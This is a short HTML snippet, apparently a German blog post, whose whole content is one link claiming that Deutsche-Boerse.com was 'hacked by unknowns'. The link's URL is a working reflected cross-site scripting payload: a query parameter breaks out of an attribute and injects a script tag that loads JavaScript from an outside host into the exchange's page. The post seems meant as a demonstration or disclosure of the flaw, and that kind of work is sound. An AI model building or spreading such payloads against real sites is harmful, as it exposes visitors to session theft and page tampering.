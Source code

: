 <html><body><p>Ohne viel Drumrum:<br>
<a href="http://deutsche-boerse.com/dbag/dispatch/de/isg/gdb_navigation/home?module=InOverview_Equi&amp;wp=NL0000235190&amp;foldertype=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;wplist=NL0000235190&amp;active=overview&amp;wpbpl=" target="_blank">Deutsche-Boerse.com von Unbekannten gehackt!</a></p></body></html>